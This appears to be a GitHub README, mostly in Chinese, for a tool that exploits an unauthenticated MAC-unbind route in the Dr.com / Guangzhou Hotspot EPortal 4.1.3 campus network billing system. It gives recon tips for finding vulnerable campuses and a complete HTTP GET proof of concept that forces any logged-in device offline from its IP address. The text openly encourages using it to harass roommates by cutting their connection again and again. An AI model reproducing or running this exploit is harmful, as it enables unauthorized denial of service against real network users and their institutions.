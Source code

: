 # Dr.com Eportal校园网管理系统未授权断网漏洞 -附脚本
<img width="800" height="300" alt="image" src="https://github.com/Zaxk1337/DrcomCutdown/assets/164832393/f4107b1c-d880-4688-8a32-921a0b95406d">

# Eportalcutdown

😎测试版本:
  **Guangzhou Hotspot Software Technology Co., Ltd. © 2020   EPortal4.1.3**

🥳效果:
  你是否受够了室友半夜两三点还在激情csgo？是否受够了每当你正要进入梦乡和小美大战800回合的时候，你的室友突然在游戏中破防爆粗口？<br>
  <br>
  Fine，Using this！<br>
  <br>
  如果你家大学正在使用此款计费系统，那么恭喜你🎉，用此脚本可以将校园网内任意已登陆设备强制踹下线，实现断网效果，如果你足够聪明，你可以自己对脚本进行二次开发，一直让b狗娘养的夜战哥处于断网状态，或者隔三差五给他断网恶心他，还你宿舍一个清明。☝️
 
## 识别Recon
那么如何识别你校是否也存在此漏洞？<br><br>
打开你的校园网认证界面，如果在任意位置你找到了包含*Guangzhou Hotspot Software Technology Co., Ltd* 或者 *本XX系统由广州热点软件科技股份有限公司提供*的Powerby信息，那么🎉con graduation，你所在的校园认证系统中很有可能存在此漏洞。赶紧挑个倒霉蛋试试吧🥚


# 原理 -Principle
由于未对unbind路由做验证，导致任意知道受害者内网ip地址的人员，在使用一个简易将ip地址转换为int整型数字的算法后(已附脚本，算法在脚本里面)，可以实现无授权解绑目标mac地址，实现断网效果。

***POC:***
```
GET /eportal/portal/mac/unbind?wlan_user_mac=000000000000&wlan_user_ip={ipToParseIntValue计算后的ip整数值} HTTP/1.1
Host: {把我换成你家校园网登陆ip地址}:801
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
```
